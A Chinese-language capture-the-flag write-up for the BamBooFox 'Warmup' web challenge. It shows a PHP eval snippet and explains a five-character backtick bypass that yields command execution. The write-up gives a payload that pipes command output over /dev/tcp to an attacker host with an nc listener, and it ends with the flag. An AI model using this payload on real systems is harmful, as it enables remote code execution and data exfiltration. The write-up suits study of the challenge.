

# BamBooFox: Warmup

**Category:** WEB  

## Write-up
這題跟官方解法一樣，首先題目給的 Source Code 如下。  

```php
<?php

    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));
```

然後這邊也從學弟那邊學到一個小知識，`@` 代表的意思是不輸出錯誤訊息，這題主要是僅能餵給 `eval` 參數吃長度為 5 的字串，首先思路為 `` `$x`; `` 接著背後接著系統指令。  

但由於不會回顯的關係，需要將回傳的內容往外送出來，可以使用 `bash -c 'ls > /dev/tcp/<Host>/<Port>'`，串接起來如下。  

```
`$x`;bash -c 'ls > /dev/tcp/<Your-Host>/<Port>'
```

原本沒有 VPS 可以拿來接收資料，而嘗試使用 requestbin 之類的服務，不曉得原因，可能是這種類似不服務只吃 HTTP 吧，隨後使用跟學弟借來的 VPS 來接 ls 的輸出。  

```
nc -lv <Port>
```

  

簡單說明原理，首先前五個字元 `$x`; 會被 `substr($x, 0, 5)` 所保留下來，而到 `` eval(`$x;`) `` 的時候，會再次執行一次 `` `$x` ``，而該次執行的 `$x` 並沒有經過 `substr($x, 0, 5)` 處理。  

此外 `` ` `` 的意思就如同使用 `shell_exec()`，所以會將字串以系統指令的方式執行，而 `` `$x;` ``，在 Linux 上，若沒有刻意設定 $x 的 Local 變數值，預設為空，可以嘗試在 Linux 上執行 `` `$x;` ``，就會發現什麼也不會發生，除非有指定過參數，例如 `x="Hello World"`，再接著執行 `echo $x`，就可以看出端倪。  

**GetFlag:**

`BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}`